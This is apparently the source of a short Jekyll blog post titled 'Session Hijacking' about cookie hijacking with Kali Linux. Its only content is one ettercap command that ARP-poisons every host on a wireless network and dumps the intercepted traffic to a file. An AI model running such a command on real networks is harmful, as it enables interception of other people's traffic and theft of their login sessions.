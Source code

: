 ```yaml
---
layout: post
title: Session Hijacking
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Coockie Hijack
fullview: true
comments: true
---
```


{% highlight yaml %}
$ettercap -T -w testdump -i wlan0 -M ARP /GATEWAY/ //
{% endhighlight %}
